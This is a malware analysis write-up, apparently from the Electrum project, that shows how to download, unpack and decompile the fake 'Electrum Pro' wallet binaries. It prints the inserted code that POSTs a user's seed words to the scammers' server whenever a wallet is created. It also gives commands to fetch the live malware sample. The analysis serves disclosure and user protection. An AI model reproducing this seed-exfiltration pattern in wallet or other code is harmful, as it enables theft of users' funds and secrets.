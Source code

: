 # Decompiling the ElectrumPro stealware

This document describes how to decompile the "Electrum Pro" Windows
binaries, and how to verify that they indeed contain bitcoin-stealing
malware.  We previously warned users against this software, but at
that time we did not have formal evidence.


## 0. Background

Electrum is a popular Bitcoin wallet, distributed on
[electrum.org](https://www.electrum.org) and
[spesmilo/electrum](https://github.com/spesmilo/electrum).

Recently, a website hosted at "electrum dot com" has been trying to
defraud Electrum users, by distributing fake Electrum binaries that
will extract the user's seed words and private keys, and send them to
a remote server.

In the past, this kind of attack has been carried out by websites
hosted on domain names similar to electrum.org (e.g. they swap two
letters, or use fancy UTF8 characters that look similar), and using
paid Google ads. Those websites are commonly just an almost exact copy
of the official one.

The "electrum dot com"
[scheme](https://www.reddit.com/r/Bitcoin/comments/8a1drz/psa_electrumcom_bought_by_scammers_to_distribute/)
is taking that attack further: the scammers have managed to take
control of [the dot com domain](https://i.imgur.com/RPqKmwf.png), and
they have developed a website with a slightly different design and
logo. The authors have been [claiming](https://archive.fo/Yuvjn) that
they are developing a legitimate fork of the Electrum project, and
that they are trying to improve user experience. The owners of
"electrum dot com" went as far as to claim that they are "currently
undergoing a public security audit which will be released soon".

Well, given they did not release such audit, we will do it in this
write-up.


## 1. Prerequisites

This guide assumes a modern Debian based Linux distribution.

1. The same version of python is needed as the one used in the binary.
For the Windows binaries, python 3.5.
[This link](https://askubuntu.com/questions/682869/how-do-i-install-a-different-python-version-using-apt-get)
might be useful if you are on too new or too old ubuntu.

2. To unpack the pyinstaller binary,
[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)
will be used:

    ```
    $ wget -O pyinstxtractor.py  https://downloads.sourceforge.net/project/pyinstallerextractor/dist/pyinstxtractor.py
    ```

3. To decompile the pyc bytecode, [uncompyle6](https://pypi.org/project/uncompyle6/)
will be used:

    ```
    $ python3.5 -m pip install uncompyle6
    ```


## 2. Download the malware

```
$ wget https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```

At the time of writing, the file we get is:

```
$ sha256sum ElectrumPro-4.0.2-Standalone.zip
f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99  ElectrumPro-4.0.2-Standalone.zip
```

If you get a different hash, it means that the attackers have removed
the malware version from their website, in order to evade legal
takedown mesures. However, a backup of electrum dot com is hosted on
archive.org, and can be used to retrieve the malware file:

```
$ wget https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```


## 3. Uncompress the zip

For example
```
7za e ElectrumPro-4.0.2-Standalone.zip
```
(which requires p7zip)

Warning: obviously, do not execute the extracted file.


## 4. Unpack the pyinstaller binary
```
python3.5 ./pyinstxtractor.py electrumpro-4.0.2.exe
```

## 5. Decompile the python bytecode
```
cd electrumpro-4.0.2.exe_extracted/out00-PYZ.pyz_extracted/
uncompyle6 electrum.keystore.pyc
```

The output of this command can be found
[here](https://gist.github.com/SomberNight/62d78d206001e13e30e169ef8eb2b4dc).


## 6. A look at the output

Particularly of interest are lines 223-248:

```python
def verify_version(self, v1):
    reqlist = 'https://www.electrum.com/checkversioninfo.php'
    API_ENDPOINT = reqlist
    encodedversionv1 = self.encode_version(v1)
    data = {'version': encodedversionv1}
    r = None
    try:
        r = requests.post(url=API_ENDPOINT, data=data)
        if r.status_code != 200:
            self.verify_version(v1)
        else:
            if r.text != 'current_version=' + encodedversionv1:
                self.verify_version(v1)
    except requests.exceptions.RequestException as e:
        self.verify_version(v1)

def verify_version_thread(self, v1):
    time.sleep(15)
    self.verify_version(v1)

def add_seed(self, seed):
    if self.seed:
        raise Exception('a seed exists')
    self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(seed,))
    self.thread_v1.start()
    self.seed = self.format_seed(seed)
```

`add_seed` is a method in the `keystore.py` module, that gets called
while creating or restoring a wallet. In this binary, a few extra
lines have been added by the scammers: A thread is started that
**sends** an HTTP POST request to their website, and its payload is
**the user's seed**.  This demonstrates that "Electrum Pro" is
bitcoin-stealing malware.

## 7. Closing

Users should only download binaries from official sources, and they should check the GPG signatures
(official binaries are signed with
[ThomasV's key](https://pgp.mit.edu/pks/lookup?op=vindex&search=0x2BD5824B7F9470E6)).
Alternatively if they know how, they can run from source, or build binaries themselves.

In addition to GPG signatures, Electrum is working on having the Windows binaries signed using the
Windows native scheme, which should be ready soon, and at some point there will be an
official signed package in the MacOS store as well.

### Misc

Note that this post was looking at only one of the Windows binaries
distributed by "electrum dot com", but it is safe to assume that the
other Windows binaries are malicious as well.  We also checked the Mac
`.dmg` file, and it contained the same modifications. The Linux
package seemed harmless, presumably because the scammers did not want
to have these changes in plain sight (Linux packages are essentially
just source code).

Thanks to  `echeveria` (on Freenode); [here](https://transfer.sh/oZ4P7/electrumpro.warc.gz) is a complete copy of electrum dot com in web-archive
(archive.org format), [opentimestamped](https://transfer.sh/oq1ve/electrumpro.warc.gz.ots).

There is also a copy of the binary matching the sha256 hash in this write-up on
[archive.org](https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip).

Also, a [VirusTotal URL](https://www.virustotal.com/#/file/f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99/relations)
linking the hash to the website.
